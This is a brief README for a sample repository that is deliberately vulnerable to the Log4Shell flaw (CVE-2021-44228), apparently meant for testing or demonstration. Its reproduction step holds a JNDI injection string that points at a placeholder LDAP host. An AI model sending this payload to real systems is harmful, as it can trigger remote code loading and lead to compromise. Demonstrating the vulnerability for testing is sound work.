 # sample-vulnerable-log4j-direct-app

This repository is a sample repository that is vulnerable to [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228).

## Repro of vulnerability

``` shell
gradle run --args='${jndi:ldap://some.host.example.com/}'
```